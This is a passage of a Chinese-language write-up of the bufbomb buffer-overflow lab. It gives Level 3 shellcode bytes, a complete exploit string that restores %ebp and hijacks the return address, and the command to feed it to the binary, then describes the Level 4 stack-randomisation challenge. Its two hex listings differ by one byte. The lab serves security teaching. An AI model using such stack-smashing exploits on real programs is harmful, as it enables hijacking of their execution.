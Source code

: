 ```cpp
push $0x8048dbe
ret
//翻译为16进制数
8b 04 25 08 d1 04 28
68 be 8d 04 08
c3


/*
顺便一提，汇编代码最后要留一行空行
gcc -c将此处汇编代码转换成机器码不能在mac上进行
要在docker的linux中执行
*/

//level3.txt
//注意到getbuf开头有一句 push %ebp，我们需要还原这里栈的内容
//把断点打在“函数开头”，注意不能用函数名打断点，具体见“杂项.md”

//我很长时间内认为'b 函数名'的操作会把断点打在汇编代码中函数的开头
//结果找了很久的bug

//以-u h运行
x %ebp
0x55683610 <_reserved+1037840>:	0x55685ff0
//%ebp的值是0x55683610 
//level3.txt
8b 04 25 08 d1 04 08
68 be 8d 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 10 36 68 55
b8 35 68 55
//13+31+4 = 48 
cat level3.txt|./hex2raw|./bufbomb -u h
```
## <div id="level4">10.Level 4:Nitroglycerin(10 pts)</div>
从一次运行到另一次运行，尤其是由不同的用户运行，给定过程使用的确切堆栈位置会有所不同。这种变化的一个原因是，当程序开始执行时，所有环境变量的值都放在堆栈的底部附近。环境变量存储为字符串，根据其值需要不同的存储量。因此，为给定用户分配的堆栈空间取决于他或她的环境变量的设置。在GDB下运行程序时，堆栈位置也会有所不同，因为GDB使用堆栈空间来处理自己的一些状态

在调用getbuf的代码中，我们引入了稳定堆栈的功能，这样getbuf堆栈框架的位置在运行之间就会保持一致。这使得您可以在知道buf的确切起始地址的情况下编写漏洞利用字符串。如果你试图在普通程序上使用这种漏洞，你会发现它有时有效，但有时会导致分段错误。因此有了“炸药”的名字——阿尔弗雷德·诺贝尔开发的一种炸药，它含有稳定元素，使其不太容易发生意外爆炸。

对于这个水平，我们走了相反的方向，使堆栈位置比正常情况下更加不稳定。因此有了“硝酸甘油”的名字——一种出了名的不稳定炸药。当您使用命令行标志“-n”运行BUFBOMB时，它将在“Nitro”模式下运行。该程序不是调用函数getbuf，而是调用一个略有不同的函数getbufn：

这个函数类似于getbuf，只是它有一个512个字符的缓冲区。您将需要这个额外的空间来创建可靠的漏洞。调用getbufn的代码首先在堆栈上分配随机量的存储，因此，如果您在连续两次执行getbufn期间对%ebp的值进行采样，您会发现它们的差异高达±240。
此外，当在Nitro模式下运行时，BUFBOMB要求您提供字符串5次，它将执行getbufn 5次，每次都有不同的堆栈偏移量。您的漏洞利用字符串必须使其每次都返回您的cookie。
